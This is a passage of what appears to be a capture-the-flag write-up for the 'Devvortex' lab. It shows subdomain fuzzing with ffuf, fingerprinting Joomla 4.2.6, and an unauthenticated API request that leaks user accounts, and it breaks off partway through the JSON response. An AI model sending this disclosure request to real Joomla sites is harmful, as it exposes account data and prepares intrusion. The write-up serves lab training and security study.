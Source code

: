 Intial scans for DNS took me a day, I could not find anything with `gobuster dns` or `dirbuster` but finally `ffuf` has found subdomain `dev`:
```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 134ms]
```

Directory discovery shows `/administrator/index.php` where I find out that the page runs on Joomla! The best way how to find what version is running is https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website ... so with a request `GET /administrator/manifests/files/joomla.xml HTTP/1.1` we have found the version 4.2.6

Quick google search discovers that this version is vulnerable to Unauthenticated information disclosure under 

`GET /api/index.php/v1/users?public=true`
```json
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/users?public=true"
  },
  "data": [
    {
      "type": "users",
      "id": "649",
      "attributes": {
        "id": 649,
        "name": "lewis",
        "username": "lewis",
        "email": "lewis@devvortex.htb",
        "block": 0,
        "sendEmail": 1,
        "registerDate": "2023-09-25 16:44:24",
        "lastvisitDate": "2023-10-29 16:18:50",
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Super Users"
      }
    },
    {
```